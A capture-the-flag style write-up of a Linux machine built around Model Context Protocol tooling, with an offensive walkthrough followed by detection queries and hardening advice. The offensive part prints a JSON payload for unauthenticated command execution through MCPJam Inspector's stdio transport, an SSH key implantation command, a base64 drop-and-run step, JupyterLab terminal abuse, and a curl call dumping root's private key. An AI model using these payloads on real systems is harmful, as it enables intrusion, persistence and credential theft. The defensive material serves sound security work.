# DevHub

```
Difficulty: Medium
Operating System: Linux
Services:
- SSH (OpenSSH 8.9p1)
- HTTP (Nginx / devhub.htb)
- MCPJam Inspector (Port 6274)
- OPSMCP API (Flask MCP Service - Port 5000, localhost only)
- JupyterLab (Port 8888, localhost only)
```

# Offensive Operations

## Summary

DevHub is an Ubuntu machine centered around the **Model Context Protocol (MCP)** ecosystem. Initial access is achieved via an unauthenticated RCE in the MCPJam Inspector's stdio transport. Privilege escalation to `analyst` leverages JupyterLab (running as `analyst`) to read a protected source file. From there, the OPSMCP server's hidden admin tool dumps root's SSH private key.

| Step |       User / Access      | Technique Used                       | Result                                                                                                                             |
| :--: | :-: | :-- | : |
|   1  |     (Unauthenticated)    | Port Enumeration                     | Discovered services: Nginx (80), MCPJam Inspector (6274), OPSMCP (5000 localhost), JupyterLab (8888 localhost), and SSH (22).      |
|   2  |   (Unauthenticated Web)  | MCPJam Inspector RCE                 | Abused `/api/mcp/connect` stdio transport to execute arbitrary commands by spawning `bash` through MCPJam.                         |
|   3  |   (Unauthenticated Web)  | SSH Key Injection                    | Added attacker-controlled public key to `/home/mcp-dev/.ssh/authorized_keys` via RCE.                                              |
|   4  |         (mcp-dev)        | SSH Access                           | Logged in as `mcp-dev` using the injected SSH key after specifying compatible key-exchange algorithms.                             |
|   5  |         (mcp-dev)        | Local Service Enumeration            | Identified localhost-only OPSMCP service on port 5000 requiring an API key and found JupyterLab running on port 8888 as `analyst`. |
|   6  |         (mcp-dev)        | Process Enumeration                  | Retrieved the JupyterLab authentication token from running processes.                                                              |
|   7  |    (mcp-dev → analyst)   | JupyterLab Terminal Abuse            | Connected to JupyterLab's terminal API and executed commands as `analyst`.                                                         |
|   8  |     (analyst Context)    | Protected File Access                | Copied `/opt/opsmcp/server.py` to a world-readable location and extracted the OPSMCP API key.                                      |
|   9  |         (mcp-dev)        | Source Code Review                   | Discovered hidden MCP tools (`ops._debug_mode`, `ops._admin_dump`) merged into the available tool set.                             |
|  10  |  (Authenticated OPSMCP)  | Hidden Administrative Function Abuse | Invoked `ops._admin_dump` using the recovered API key to dump sensitive credentials.                                               |
|  11  | (Root Credential Access) | SSH Private Key Disclosure           | Retrieved root's OpenSSH private key from the administrative dump output.                                                          |
|  12  |          (root)          | SSH Authentication                   | Logged in as root using the recovered private key and obtained full system compromise.                                             |




## Enumeration

### Port Scan

```
80/tcp    - nginx (devhub.htb static page)
5000/tcp  - OPSMCP Flask server (localhost only)
6274/tcp  - MCPJam Inspector v1.4.2
8888/tcp  - JupyterLab (localhost only)
22/tcp    - OpenSSH 8.9p1
```

| Port     | Service          | Notes                                                                                                                                       |
| -- | - | - |
| **22**   | SSH              | OpenSSH 8.9p1. Used later to obtain interactive access as `mcp-dev` and eventually `root`.                                                  |
| **80**   | HTTP (nginx)     | Hosted a static page for `devhub.htb`. No direct attack surface identified.                                                                 |
| **5000** | OPSMCP           | Custom Flask-based MCP server bound to localhost. Not externally accessible. Required an API key for authentication.                        |
| **6274** | MCPJam Inspector | MCP debugging interface exposed externally. Ultimately vulnerable to command execution through the `stdio` transport mechanism.             |
| **8888** | JupyterLab       | Bound to localhost and inaccessible externally. Later abused using a leaked authentication token to execute commands as the `analyst` user. |


[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/nmap_results.nmap "Results")


)


### Web Enumeration

For the **Enumeration → Port Scan** section, expand it with the information you actually observed during the box:




### Internal Services

After obtaining access as `mcp-dev`, local socket enumeration revealed that both OPSMCP and JupyterLab were intentionally restricted to localhost:

```bash
ss -lntp
```

Output:

```text
LISTEN 0 128 127.0.0.1:8888
LISTEN 0 128 127.0.0.1:5000
LISTEN 0 511 0.0.0.0:6274
LISTEN 0 511 0.0.0.0:80
LISTEN 0 128 0.0.0.0:22
```




## Initial Access - MCPJam Inspector RCE (mcp-dev)

MCPJam Inspector exposes a `POST /api/mcp/connect` endpoint that accepts a `serverConfig` object defining an MCP server connection. When the transport type is `stdio`, MCPJam spawns the specified process directly.


**Exploit:** Provide `bash` as the `command` and inject arbitrary shell commands via `args`:

```json
{
  "serverId": "s1",
  "serverConfig": {
    "type": "stdio",
    "command": "bash",
    "args": ["-c", "id > /tmp/pwned"]
  }
}
```

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/test.json "Results")

The MCPJam server responds with a 500 ("Connection closed") because bash doesn't speak MCP protocol - but the command executes before bash exits.




**Persistence:** Inject our SSH public key into mcp-dev's `authorized_keys`:

```bash
CMD="mkdir -p /home/mcp-dev/.ssh && echo 'ssh-ed25519 AAAA...' >> /home/mcp-dev/.ssh/authorized_keys && chmod 600 /home/mcp-dev/.ssh/authorized_keys"
```

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/ssh.json "Results")




> **Note:** The Origin header bypass: MCPJam validates the `Origin` header. Sending no Origin header (or `http://localhost:6274`) bypasses this check.

**SSH connection issue:** SSH hangs at KEX due to the `sntrup761x25519-sha512` algorithm. Fix:

```bash
ssh -o KexAlgorithms=curve25519-sha256,diffie-hellman-group14-sha256 mcp-dev@10.XXX.XX.XXX
```

We now have a shell as **mcp-dev** (uid=1001).



## Lateral Movement - JupyterLab → analyst (API Key)

### OPSMCP Discovery

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/ps.txt "Results")

Port 5000 (localhost) runs OPSMCP, a custom Flask/Python MCP server. Its API requires an `X-API-Key` header:

```json
{"auth":"Required - X-API-Key header","endpoints":["/tools/list","/tools/call","/health"]}
```

The server binary is `/opt/opsmcp/server.py`, owned by `analyst:analyst` (mode 640) - **mcp-dev cannot read it**.

### Systemd Service

```ini
[Service]
User=root
ExecStart=/home/analyst/jupyter-env/bin/python3 /opt/opsmcp/server.py
```

The OPSMCP service runs as **root**. Getting its API key enables root-level operations.









### JupyterLab Access

JupyterLab runs on localhost:8888 as `analyst`. The token was found via process enumeration:

```
token: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

**Strategy:** Use MCPJam RCE to upload a WebSocket terminal client script, then execute it on the target - connecting to JupyterLab's terminal API on localhost (no SSH tunnel needed):

```python
# jup_client.py - runs on target as mcp-dev, connects to JupyterLab terminal as analyst
urllib.request.urlopen(POST /api/terminals)  # creates terminal
ws_connect(f"/terminals/websocket/{name}")
ws_send(["stdin", "cp /opt/opsmcp/server.py /tmp/srv.py && chmod 777 /tmp/srv.py\n"])
```

Upload and execute via MCPJam RCE:
```json
{
  "command": "bash",
  "args": ["-c", "echo <base64_script> | base64 -d > /tmp/jc.py && python3 /tmp/jc.py 'cp /opt/opsmcp/server.py /tmp/srv.py && chmod 777 /tmp/srv.py'"]
}
```

The command runs as `analyst` inside JupyterLab's terminal, copying `server.py` to a world-readable location.

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/notebook.json "Results")
[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/quarterly_analysis.ipynb "Results")

### Extracting the API Key

After copying via JupyterLab, read via SSH:

```bash
grep -i 'VALID_API_KEY' /tmp/srv.py
# VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"
```





## Privilege Escalation - OPSMCP Hidden Tool → root SSH Key

### Discovering Hidden Tools

The OPSMCP `server.py` defines hidden tools in `HIDDEN_TOOLS` that are merged into `ALL_TOOLS`:

```python
ALL_TOOLS = {**VISIBLE_TOOLS, **HIDDEN_TOOLS}
```

Hidden tools include:
- `ops._debug_mode` - enables debug mode, lists hidden tools
- `ops._admin_dump` - dumps sensitive credentials (SSH keys, passwords, tokens)

### Dumping Root's SSH Key

Set up SSH tunnel to port 5000, then call the hidden admin tool:

```bash
curl -X POST http://127.0.0.1:5000/tools/call \
  -H "X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a" \
  -H "Content-Type: application/json" \
  -d '{"name": "ops._admin_dump", "arguments": {"target": "ssh_keys", "confirm": true}}'
```

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/dump.json "Results")


Response:
```json
{
  "target": "ssh_keys",
  "root_private_key": "--BEGIN OPENSSH PRIVATE KEY--\n...",
  "note": "Emergency recovery key dump"
}
```

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/root_id_rsa "Results")


> **Note:** The `arguments` key is critical - using `parameters` returns "Tool name required".



### Root Access

Save the private key and SSH as root:

```bash
chmod 600 root_id_rsa
ssh -i root_id_rsa -o KexAlgorithms=curve25519-sha256,diffie-hellman-group14-sha256 root@10.XXX.XX.XXX
```

```
uid=0(root) gid=0(root) groups=0(root)
```





# Defensive Operations

## Strategic Overview

* **1.1 Definition:** A multi-stage compromise of an MCP (Model Context Protocol) development environment beginning with unauthenticated command execution through MCPJam Inspector, followed by abuse of an exposed JupyterLab token to execute commands as another user, culminating in root compromise through a hidden administrative function exposed by an internal MCP service.

* **1.2 Impact:** Complete system compromise (Root authority), disclosure of sensitive credentials and private keys, unauthorized access to internal management services, persistence through SSH key implantation, and unrestricted access to all hosted data and services.

* **1.3 The Scenario:** An external attacker exploited MCPJam Inspector's insecure `stdio` transport mechanism to achieve remote command execution as `mcp-dev`. Process enumeration exposed a JupyterLab authentication token, allowing execution of commands as `analyst`. The attacker copied and analyzed the source code of an internal root-owned MCP service, recovered an API key, discovered undocumented administrative functions, and abused a hidden credential-dump capability to obtain root's SSH private key and authenticate directly as root.


## System Architecture & Theory

* **2.1 Protocol Environment:** Ubuntu 22.04.5 LTS, MCPJam Inspector (Port 6274), OPSMCP Flask API (Port 5000), JupyterLab (Port 8888), OpenSSH (Port 22), Nginx (Port 80).

* **2.2 Attack Logic Flow:**

> [Internet] → [MCPJam Inspector] → [Unauthenticated RCE] → [mcp-dev Shell] → [Jupyter Token Discovery] → [JupyterLab Terminal Execution] → [Source Code Disclosure] → [OPSMCP API Key Recovery] → [Hidden Admin Tool Abuse] → [Root SSH Key Disclosure] → [Root Access]

* **2.3 Theoretical Analogy:** An attacker discovers a publicly accessible maintenance console that blindly executes instructions. Inside, they find an administrator's unattended workstation (JupyterLab), use it to access internal documentation (server.py), uncover a hidden emergency vault key (API key), and then invoke an undocumented disaster recovery procedure that hands them the master keys to the entire facility.


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute                  | Technical Details                                                                                                                                                                                                                                                                                           |
| -- | -- |
| **Primary Identifiers**    | `/api/mcp/connect`, `/api/terminals`, `/opt/opsmcp/server.py`, `/tools/call`, `ops._admin_dump`                                                                                                                                                                                                             |
| **Critical Vulnerability** | Arbitrary process execution through MCPJam's `stdio` transport, exposed Jupyter authentication token, hidden administrative functionality within OPSMCP, and sensitive credential exposure through an undocumented API endpoint.                                                                            |
| **Offensive Action**       | Spawned arbitrary processes through MCPJam, implanted SSH keys for persistence, enumerated local processes, abused JupyterLab to execute commands as another user, copied restricted source code, recovered API credentials, and extracted root's SSH private key through a hidden administration function. |

### Prerequisites

* **Access Level:** Unauthenticated network access to TCP/6274.
* **Connectivity:** TCP/6274 (MCPJam), TCP/22 (SSH).
* **Target State:** MCPJam Inspector accessible externally, JupyterLab token exposed via process arguments, OPSMCP running with hidden administrative functions, and root-owned secrets retrievable through application logic.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** An attacker exploiting MCPJam Inspector will generate unusual process execution events originating from the Node.js service, followed by SSH key modifications, local enumeration activity, access to localhost-only services, and unauthorized invocation of administrative MCP tools.

* **Behavioral Outliers:**

  * Node.js spawning unexpected child processes such as `bash`, `sh`, `python3`, or `curl`.
  * Creation or modification of `/home/*/.ssh/authorized_keys`.
  * Access to localhost-only JupyterLab APIs from non-administrative users.
  * Requests to hidden MCP tools such as `ops._debug_mode` or `ops._admin_dump`.
  * Reading of `/root/.ssh/id_rsa` by application services.

* **Toxic Combinations:**

  * Externally accessible MCP orchestration interfaces capable of launching local processes.
  * Authentication tokens exposed through process arguments.
  * Administrative APIs relying solely on application-layer API keys.
  * Hidden debugging functionality deployed in production environments.


## Detection Engineering

* **Telemetry Gap Analysis:** Requires process creation logging, SSH authentication monitoring, API request auditing for MCP services, file access telemetry for sensitive keys, and localhost HTTP access visibility.

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/forensics.sh "Results")

[Network_Map](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DevHub/forensics_devhub*20260531*032651.tar.gz "Results")

* **Detection-as-Code (KQL):**

```kql
DeviceProcessEvents
| where InitiatingProcessFileName =~ "node"
| where ProcessCommandLine has_any ("bash", "sh", "python", "curl", "wget")
| project Timestamp,
          DeviceName,
          InitiatingProcessFileName,
          ProcessCommandLine,
          AccountName
```

* **SSH Persistence Detection**

```kql
DeviceFileEvents
| where FileName == "authorized_keys"
| project Timestamp,
          DeviceName,
          InitiatingProcessAccountName,
          FolderPath,
          SHA256
```

* **Administrative Tool Abuse**

```kql
DeviceNetworkEvents
| where RemotePort == 5000
| where InitiatingProcessAccountName !in ("root","opsmcp")
```

* **Resilience Test:** An attacker may bypass direct API monitoring by using SSH local port forwarding or localhost-only requests. Supplement detection with process telemetry and application audit logs capable of recording tool invocation events.


## Toolkit & Implementation

* **Automation:** `curl`, `ssh`, MCPJam Inspector API requests, JupyterLab REST API interactions, and custom notebook execution.

* **OPSEC Analysis:** The attacker remained largely within localhost boundaries after initial compromise. JupyterLab and OPSMCP communications never traversed the external network, reducing visibility to perimeter monitoring tools. Authentication relied on legitimate API keys and SSH credentials extracted from trusted services, blending malicious activity with normal administrative operations.

* **Post-Exploitation:**

  * SSH key implantation into `mcp-dev`.
  * Enumeration of internal services.
  * Recovery of protected source code.
  * Extraction of API secrets.
  * Disclosure of root SSH private key.
  * Root shell acquisition.
  * Collection of forensic artifacts and system logs.


## Defensive Mitigation

* **Technical Hardening:**

  1. Remove arbitrary process execution capability from MCPJam Inspector.
  2. Restrict MCPJam access through authentication and network controls.
  3. Eliminate authentication tokens from process command-line arguments.
  4. Disable or remove hidden administrative MCP tools from production deployments.
  5. Store API keys in protected secret management systems rather than source code.
  6. Prevent application services from accessing root SSH material.
  7. Enforce least privilege between MCP, JupyterLab, and system administration services.
  8. Audit all localhost-only services as potential privilege escalation paths.

* **Personnel Focus:** Development teams should treat MCP tooling as privileged infrastructure rather than debugging utilities. Hidden administrative functionality must undergo the same security review and threat modeling as publicly documented features.


## Quick-Action Playbook

|  Step  | Objective                  | Technical Command / Logic                                   |
| :-: | -- | -- |
| **01** | Identify MCPJam Abuse      | `journalctl -u mcpjam.service`                              |
| **02** | Review SSH Persistence     | `find /home -name authorized_keys -exec cat {} \;`          |
| **03** | Investigate Jupyter Access | `grep -i token /proc/*/cmdline`                             |
| **04** | Review OPSMCP Requests     | Inspect `/tools/call` API logs                              |
| **05** | Check Root Key Exposure    | Audit access to `/root/.ssh/id_rsa`                         |
| **06** | Remove Persistence         | Delete unauthorized SSH keys                                |
| **07** | Rotate Secrets             | Replace API keys, tokens, and SSH keys                      |
| **08** | Rebuild Trust              | Re-image host and redeploy services from known-good sources |
